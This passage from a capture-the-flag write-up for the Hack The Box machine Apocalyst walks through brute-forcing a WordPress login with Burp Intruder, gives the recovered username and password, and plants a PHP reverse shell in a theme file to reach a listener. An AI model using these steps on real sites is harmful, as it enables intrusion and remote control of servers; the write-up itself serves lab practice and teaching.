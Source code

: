 We can see that wpscan found a bunch of possible vulnerabilities and a user named falaraki. Maybe let’s brute force wordpress with the word-list we got from the image on `http://10.10.10.46/wp-login.php`

I captured a test request in Burp Suite at the login page and sent it over to the intruder option.

![](../img/Apocalyst Writeup/1_p0dXvfwtCk_kh8uqzCDqiw.png)

Were going to select the password `pwd` parameter only and the Attack type will be Sniper. We move onto to the payloads section and add the list we got from the image. Then start the attack - all requests sent back a 200 status code and most of them had a 3101 in length except this one request that had 3764 in length meaning it either worked as the correct password, timed out, or it gave us a unique error that only that password can give.

![](../img/Apocalyst Writeup/1_Tiqvzm1l1lT7UN9AcbU84g.png)

Let’s try to login with that password Transclisiation

username: _falaraki_
password: _Transclisiation_

![](../img/Apocalyst Writeup/1_plGEQ7DQEXziA5bzM2pwwQ.png)

# …and were in!

![](../img/Apocalyst Writeup/1_cQH6tQQJVn8UCSqfPv4sWg.gif)

Now we can upload our php reverse shell in the Appearance Editor. I got my php shell from [PenTestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) I’m not going to paste the entire code here because it’s a lot of code, so all you have to do is change your ip and port number. Where it says //CHANGE THIS to your ip and desired port number.

```
$ip = ‘127.0.0.1’; // CHANGE THIS
$port = 1234; // CHANGE THIS
```

![](../img/Apocalyst Writeup/1_pPSCaR3SLq6bJp03dl7BnA.png)

Save the changes made to the file once your reverse shell is in and setup your netcat or metasploit listener. Then execute the php reverse shell.

http://apocalyst.htb/wp-content/themes/twentyseventeen/404.php

![](../img/Apocalyst Writeup/1_0rBzf6vwduDRypZDPNF4UA.png)

Now we can get the user flag!

![](../img/Apocalyst Writeup/1_HKEG1VmC4zUukGrXrwrgFg.png)

“One of my go-to commands after catching a dumb shell is to use Python to spawn a pty. The [pty module](https://docs.python.org/2/library/pty.html) let’s you spawn a psuedo-terminal that can fool commands like `su` into thinking they are being executed in a proper terminal. To upgrade a dumb shell, simply run the following command”
